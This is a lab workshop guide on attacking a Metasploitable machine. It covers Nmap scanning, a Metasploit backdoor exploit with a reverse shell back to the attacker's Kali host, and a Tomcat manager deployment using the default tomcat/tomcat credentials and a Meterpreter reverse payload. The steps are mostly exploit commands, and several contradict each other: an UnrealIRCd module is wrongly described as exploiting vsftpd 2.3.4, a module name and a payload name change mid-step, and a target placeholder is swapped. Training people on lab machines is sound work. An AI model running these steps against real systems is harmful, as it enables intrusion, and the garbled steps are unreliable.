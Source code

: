 # Intro to Ethical Hacking Workshop Guide

## Lab 1: Nmap

First, make sure our Metasploitable lab machine is reachable. From Kali Linux:

```
ping <metasploitable_ip>
```

Next, we'll try Nmapping this host. Run the following scan to do a basic port scan of the host.

```
sudo nmap -Pn -sS <metasploitable_ip>
```

We now have a list of ports. Let’s see if we can get a little more information about service versions.

```
sudo nmap -Pn -sS -sV <metasploitable_ip>
```

Now that we have a list of ports, and version, we notice that the FTP service vsftpd is running on port 21. Let’s check if Nmap contains any scripts to scan for vulnerabilities in this service. We’ll list the files in the directory using ls -la /usr/share/nmap/scripts and then pipe the output to “grep” to search for the string ftp, using the following command:

```
ls -la /usr/share/nmap/scripts/ | grep ftp
```

There is a script specifically for this host, called “ftp-vsftpd-backdoor.” We’ll run this script against the vulnerable host to determine if it’s vulnerable. Note that in this scan, we’re only specifying port 21 with the -p21 flag, since this is the only port we care to scan with this script.

```
sudo nmap -Pn -sS -sV -p21 --script ftp-vsftpd-backdoor <metasploitable_ip>
```

Running this nmap command should show that service is indeed vulnerable.

## Lab 2: Intro to Metasploit

Now that we have identified a vulnerability using Nmap, let’s attempt to exploit this vulnerability. We’ll begin by starting the Metasploit Console using the following command:

```
msfconsole
```

Once Metasploit has started, we’ll use the following command to search for a relevant exploit for the vulnerable service.

```
search unrealirc
```

After this command is completed, we should see at least one vulnerability pertaining to vsftpd. We’ll use the following command to get a little more information about the vulnerability.

```
info exploit/unix/irc/unreal_ircd_3281_backdoor
```

Running this command shows that the exploit works against vsftpd 2.3.4. If we revisit the Nmap scan results, we should see that the server is running this version. Therefore, we’ll go ahead and activate this exploit.


```
use exploit/unix/irc/unreal_ircd_3281_backdoors
```

Now that we have specified which exploit we want to use, we’ll need to set a few options for the exploit to properly work. This can be viewed using the following command:

```
show options
```

Now that we have a list of options, we see that we only need to fill in one variable. This is RHOST, since RPORT is the correct port that vsftpd is running on. We’ll set RHOST to the IP address of the Metasploitable box.

```
set RHOSTS <metasploitable_ip>
```

Finally, running an exploit without a payload is relatively useless. If we begin by typing “set payload” and the tab key a couple of times, Metasploit should autocomplete this field. We see that there is only one option. Let’s go ahead and specify that payload.

```
set payload cmd/unix/reverse
```

Next, we'll show options again to see if the payload has any options.

```
show options
```

```
set LHOST <your_kali_ip_or_hostname>
```

Everything should now be complete. Let’s type “show options” one more time to verify that there aren’t any additional payload options to specify. There shouldn’t be, so let’s go ahead and run our exploit.


```
run
```

We will see some output, and then should have a blank line. Run the following command in the blank line.

```
id
```

This should return output stating that we have an active session as the root user. Success! We’ve rooted our first box.

## Bonus Lab: More Metasploit


The next lab will be a bit more involved than the previous exercise. We first begin by revisiting our Nmap results from previously. We see that Tomcat manager is running on port 8180. We recall several incidents involving poor authentication with Tomcat manager. We’ll begin by browsing to this port within a web browser.

```
http://<meterpreter_ip>:8180
```

We should see a panel to the left of the screen. This panel should contain a link titled “Tomcat Manager." Click the “Tomcat Manager” link and insert the default username and password when prompted.

* username: tomcat
* password: tomcat

We’re now in the management panel of Tomcat. From here, we can upload any web application that we would like. We could do this manually, but Metasploit should have a module that does this automatically. Start Metasploit if it isn’t currently running.

```
msfconsole
```

Once Metasploit starts, we should search for any exploit related to tomcat.

```
search tomcat
```

After examining the results, “tomcat_mgr_deploy” sounds like it may do what we’re wanting to do. Let’s verify by using the following command:

```
info exploit/multi/http/tomcat_mgr_deploy
```

Go ahead and use this exploit, since we have verified that it will work against our target host.

```
use exploit/multi/http/tomcat_mgr_deploy
```

Now that we’ve activated this exploit, let’s examine the options available

```
show options
```

As before, we’ll set each variable to the required setting, making sure we provide the default username and password.

```
set HttpPassword tomcat
set HttpUsername tomcat
set RHOSTS <metasploitable_ip>
set RPORT 8180
set target 1
```

Now that we need to select a payload for the exploit. Hitting tab a few times reveals java/meterpreter/reverse_tcp. Since we prefer using meterpreter when possible, we’ll select this option.

```
set payload java/meterpreter/reverse_http
```

Once again, “show options” to show payload options.

```
show options
```

We’ll set the payload option to our local IP address.

```
set LHOST <kali_ip>
```

And then run the exploit.

```
run
```

Let’s examine the current UID with the following command.

```
getuid
```

We should see that our payload is running as the tomcat user. The next steps would be to find a way to elevate these permissions to root.
